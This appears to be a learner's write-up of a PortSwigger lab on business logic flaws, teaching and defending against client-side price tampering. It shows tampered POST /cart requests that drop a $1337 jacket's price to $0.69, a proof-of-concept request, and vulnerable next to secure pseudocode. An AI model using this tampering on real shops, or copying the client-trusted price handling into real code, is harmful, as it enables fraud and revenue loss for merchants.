

# Lab 01: Excessive Trust in Client-Side Controls

> **Topic**: Business Logic Vulnerabilities
> **Lab Number**: 01
> **Platform**: PortSwigger Web Security Academy

## Category
Business Logic — Client-Side Price Tampering (Unvalidated User-Supplied Input)

## Vulnerability Summary
The application trusts the `price` parameter submitted by the client when adding items to the cart. The server performs no server-side validation of the price against the actual product price stored in the database. By intercepting the `POST /cart` request and modifying the `price` field to an arbitrarily low value, an attacker can purchase any product for a fraction of its real cost — in this case, a $1337.00 leather jacket for $0.69 per unit.

## Attack Methodology

### Step 1: Recon — Add Item to Cart and Intercept
Navigated to the product page for the **Lightweight "l33t" Leather Jacket** ($1337.00) and added it to the cart with Burp Proxy intercepting traffic.

The intercepted request:

```http
POST /cart HTTP/2
Host: 0a3900ac040c694c8244154c00070000.web-security-academy.net
Cookie: session=LptyJFTVEodWWjpI3oKWT64Vxrm9wE3h
Content-Type: application/x-www-form-urlencoded
Content-Length: 45

productId=1&redir=PRODUCT&quantity=1&price=133700
```

The `price` field is sent by the client as `133700` (representing $1337.00 in cents).

### Step 2: Tamper the Price in Burp Repeater
Sent the request to Repeater and modified the `price` parameter to `69` (~$0.69):

```http
POST /cart HTTP/2
Host: 0a3900ac040c694c8244154c00070000.web-security-academy.net
Cookie: session=LptyJFTVEodWWjpI3oKWT64Vxrm9wE3h
Content-Type: application/x-www-form-urlencoded
Content-Length: 45

productId=1&redir=PRODUCT&quantity=1&price=69
```

Response:

```http
HTTP/2 302 Found
Location: /product?productId=1
X-Frame-Options: SAMEORIGIN
Content-Length: 0
```

The server accepted the tampered price without any validation — the item was added to the cart at $0.69.

### Step 3: Adjust Quantity and Checkout
Added the item 3 times (or set `quantity=3`) with the tampered price. The cart reflected:

| Item | Price | Quantity |
|---|---|---|
| Lightweight "l33t" Leather Jacket | $1337.00 | 3 |
| **Total** | **$2.07** | |

The displayed price in the cart UI showed the real price ($1337.00 × 3 = $4011.00), but the actual cart total was calculated from the server-side stored value which was set from the client-supplied `price` at add-to-cart time — resulting in a total of **$2.07**.

With a store credit of **$97.93**, the order went through successfully.



## Technical Root Cause

### The Vulnerable Endpoint
```
POST /cart
Body: productId=1&redir=PRODUCT&quantity=1&price=133700
```

The server reads the `price` directly from the POST body and stores it in the cart session without cross-referencing the actual product price:

```python
# Vulnerable pseudocode
def add_to_cart(request):
    product_id = request.POST['productId']
    quantity   = int(request.POST['quantity'])
    price      = int(request.POST['price'])   # ← trusted from client, never validated
    cart.add(product_id, quantity, price)
    return redirect('/product?productId=' + product_id)
```

The fix requires the server to look up the price from its own database:

```python
# Secure pseudocode
def add_to_cart(request):
    product_id = request.POST['productId']
    quantity   = int(request.POST['quantity'])
    product    = Product.objects.get(id=product_id)
    price      = product.price   # ← always from server-side source of truth
    cart.add(product_id, quantity, price)
    return redirect('/product?productId=' + product_id)
```

### Why Client-Side Controls Fail
The `price` field is rendered in the HTML form as a hidden input:

```html
<input type="hidden" name="price" value="133700">
```

Hidden inputs are trivially editable via browser DevTools, Burp, or any HTTP proxy. Any data submitted by the client — hidden fields, cookies, URL parameters — must be treated as untrusted.

## Impact
- **Arbitrary Price Manipulation**: Any product can be purchased for any price the attacker chooses, including $0 or negative values
- **Financial Loss**: Direct revenue loss for the business on every manipulated transaction
- **No Authentication Required**: The vulnerability is exploitable by any logged-in user with a valid session

**Severity: High**

## Proof of Concept

```http
POST /cart HTTP/2
Host: <lab-id>.web-security-academy.net
Cookie: session=<valid-session>
Content-Type: application/x-www-form-urlencoded

productId=1&redir=PRODUCT&quantity=1&price=69
```

Result: $1337.00 item added to cart for $0.69. Repeat as needed, then checkout.

## Key Takeaways
1. **Never Trust Client-Supplied Prices**: Price, discount, and quantity data must always be sourced from the server's own database at checkout time — never from hidden form fields, cookies, or any client-controlled input.
2. **Hidden ≠ Secure**: HTML hidden inputs, disabled fields, and client-side JavaScript validation provide zero security. They are UI conveniences, not security controls.
3. **Validate at the Server, Always**: Every piece of data that affects business logic (price, quantity, discount codes, product IDs) must be validated and authorised server-side before any action is taken.
4. **Business Logic Bugs Are Not Just Code Bugs**: This class of vulnerability often passes automated scanners because the request is syntactically valid — the server is doing exactly what it was programmed to do. The flaw is in the design assumption that the client can be trusted.

## Mitigation

### 1. Look Up Price Server-Side at Add-to-Cart
```python
product = Product.objects.get(id=product_id)
cart.add(product_id, quantity, product.price)
```
Never accept `price` as a POST parameter.

### 2. Re-validate Price at Checkout
Even if price is stored in the cart session, re-fetch and verify against the current product price before processing payment:
```python
for item in cart.items:
    current_price = Product.objects.get(id=item.product_id).price
    if item.price != current_price:
        return error("Price mismatch — please refresh your cart")
```

### 3. Remove the `price` Field from the Client Request Entirely
The client should only send `productId` and `quantity`. Price is a server concern.

## References
- [PortSwigger — Excessive trust in client-side controls](https://portswigger.net/web-security/logic-flaws/examples/lab-logic-flaws-excessive-trust-in-client-side-controls)
- [PortSwigger — Business Logic Vulnerabilities](https://portswigger.net/web-security/logic-flaws)
- [OWASP — Business Logic Security Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Business_Logic_Security_Cheat_Sheet.html)
- [CWE-602: Client-Side Enforcement of Server-Side Security](https://cwe.mitre.org/data/definitions/602.html)

## Tools Used
- Burp Suite Professional (Proxy, Repeater)
- Chromium

---

*Lab completed on: 2026-05-02*  
*Writeup by vibhxr*
